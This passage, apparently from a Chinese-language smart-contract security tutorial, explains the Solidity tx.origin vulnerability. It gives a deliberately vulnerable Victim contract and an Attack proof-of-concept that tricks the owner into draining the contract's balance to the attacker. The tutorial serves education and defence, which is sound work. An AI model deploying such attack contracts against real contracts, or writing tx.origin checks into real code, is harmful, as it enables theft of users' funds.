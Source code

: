 在处理边界情况时，应该特别小心，确保不会出现整型溢出问题。例如，如果我们需要处理uint8类型的255加1的情况，可以使用SafeMath库中的add函数或者手动检查结果是否超出了uint8类型的范围。

## Tx.origin漏洞

### 什么是Tx.origin漏洞

Solidity中的tx.origin漏洞原理是，当攻击者通过一个代理合约调用另一个合约时（例如，使用**`address.call()`**函数），被调用的合约中使用tx.origin来验证用户身份时，攻击者可以欺骗被调用合约，使其相信攻击者是真正的用户，从而执行攻击者的指令。

具体而言，当攻击者通过代理合约来调用另一个合约时，**`msg.sender`**会被设置为代理合约的地址，但是**`tx.origin`**仍然是原始用户的地址，因此被调用的合约如果只使用**`tx.origin`**来验证用户身份，而不是验证**`msg.sender`**的来源，就会被攻击者欺骗。

![Untitled](/images/posts/blockchain/txorigin.png)

### 漏洞代码示例

[tx_origin.sol](https://github.com/Jovewei/Web3-Security/blob/main/vulnerability/smartContract/tx_origin.sol){:target="_blank"}  

#### 漏洞合约

```cpp
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Victim {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint256 _amount) public {
        require(tx.origin == owner, "Not owner");
        _to.transfer(_amount);
    }
}
```

#### POC合约

```cpp
contract Attack {
    address payable public hacker;
    Victim victim;

    constructor(Victim _victim) {
        victim = Victim(_victim);
        //将受益者地址赋值为部署者地址
        hacker = payable(msg.sender);
    }

    function attack() public {
        //诱导Victim合约的owner调用，于是Victim合约内的余额就全部转移到黑客地址中
        victim.transfer(hacker, address(victim).balance);
    }
}
```
